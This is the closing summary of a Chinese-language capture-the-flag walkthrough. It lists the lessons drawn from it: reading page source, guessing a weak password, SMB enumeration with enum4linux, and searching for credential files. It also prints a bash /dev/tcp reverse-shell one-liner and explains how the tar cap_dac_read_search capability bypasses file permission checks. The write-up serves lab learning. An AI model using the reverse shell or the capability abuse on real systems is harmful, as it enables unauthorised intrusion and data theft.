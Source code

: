 

暂时在`/var/log`目录下无其他日志文件





## 总结

1. 养成经常看页面源代码的习惯

2. 涉及到简单的密码破解，可以增长记忆，这里是`brain`

3. `enum4linux`的使用，可以清晰的看到SMB的好多内容

4. 结合收集到的所有信息进行尝试，这里只给出网站，并且可登录，就根据自己的信息去尝试

5. 对于登录到网站系统中的时候，对于网站的功能，都点击进行测试，比如有修改密码等操作时，就可以抓包分析

6. 妥善使用`compgen -c`来获取当前用户的可用命令，配合`grep`进行筛选

7. 记得一些敏感文件的常用关键字，如密码，可能文件名中就有`pass`

8. 命令`getcap`的使用，附在最后吧

9. 反弹`shell`的时候，反弹就是对方主动来连接你

   `bash -i >& /dev/tcp/ip/port 0>&1`



`getcap`是一个用于查看文件的能力（capabilities）的命令。在 Linux 系统中，文件能力是一种细粒度的权限机制，它允许对程序的权限进行更灵活的控制，而不是仅仅依赖传统的用户 / 组 / 其他（ugo）权限位。

- `cap_dac_read_search`是一种文件能力。具体来说，`cap_dac_read_search`能力允许一个进程绕过文件读取、目录读取和可执行文件搜索的常规文件权限检查。
- `=ep`是一种设置权限的方式。`e`表示启用（effective），`p`表示许可（permitted）。这意味着为`tar`程序设置了`cap_dac_read_search`能力，并且这个能力在程序执行时是有效的和被许可的。这样，`tar`程序在执行某些操作时（如读取文件和搜索目录）可以绕过传统的基于用户 / 组 / 其他的访问控制（DAC - Discretionary Access Control）权限检查。







































